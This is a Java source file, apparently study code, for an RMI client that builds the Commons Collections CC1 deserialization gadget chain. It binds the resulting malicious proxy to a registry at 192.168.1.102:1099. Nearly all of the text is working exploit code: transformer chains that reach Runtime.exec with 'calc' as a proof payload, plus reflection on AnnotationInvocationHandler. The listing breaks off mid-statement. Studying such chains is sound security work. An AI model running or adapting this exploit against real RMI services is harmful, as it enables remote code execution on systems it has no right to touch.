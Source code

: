 ```java
```

Client

```java
package learn.rmi.serialize;
 
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.io.Serializable;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
 
public class RMIClient implements Serializable {
 
    public void lookup() throws Exception{
 
 
        String rmi = "192.168.1.102";
        Integer port=1099;
 
        Registry registry = LocateRegistry.getRegistry(rmi,port);
        registry.bind("ser", (Remote) Exploit());
    }
 
    //恶意对象CC1
    public static Object Exploit() throws Exception{
 
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
 
        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
 
 
        HashMap<Object,Object> map=new HashMap<>();
        map.put("value","value");
        Map<Object,Object> transformedMap= TransformedMap.decorate(map,null,chainedTransformer);
 
 
        Class c=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotationInvocationHandlerConstructor=c.getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler o=(InvocationHandler)AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
```